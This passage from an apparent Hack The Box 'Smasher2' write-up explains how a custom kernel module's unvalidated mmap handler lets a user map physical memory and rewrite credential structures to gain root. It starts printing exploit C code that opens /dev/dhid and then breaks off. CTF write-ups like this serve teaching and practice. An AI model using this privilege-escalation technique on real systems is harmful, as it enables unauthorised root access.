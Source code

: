 ```c
        return errno;
    }

    printf("The received message is: [%s]\n", receive);
    printf("End of the program\n");
    return 0;
}
```

As expected, it returns the string and simply exits:

```
dzonerzy@smasher2:/dev/shm$ gcc -o test test.c
dzonerzy@smasher2:/dev/shm$ ./test
The received message is: [This is the right way, please exploit this shit!]
End of the program
```

There's an interesting paper from MWR Lab about [Kernel Driver mmap Handler Exploitation](https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-mmap-exploitation-whitepaper-2017-09-18.pdf) that apply to the custom kernel module here.

The gist of it is if the mmap handler in the module doesn't perform proper validation of parameters then we can map all the physical memory of the system from a program then read/write kernel memory from user space. This allows an attacker to read sensitive data and/or change credential structures. In this case, I want to change the privileges of the `dzonerzy` user to become root.

The decompiled code for `dev_mmap` right next to the whitepaper code example:

![](/assets/images/htb-writeup-smasher2/kernel3.png)

The whitepaper contains an exploit code that search the memory space for credential structures then modify it to give root access.

```c
#include<stdio.h>
#include<stdlib.h>
#include<errno.h>
#include <sys/mman.h>
#include<fcntl.h>
#include<string.h>
#include<unistd.h>
#include <pthread.h>

int main(int argc, char * const * argv)
{
	printf("[+] PID: %d\n", getpid());
	int fd = open("/dev/dhid", O_RDWR);
```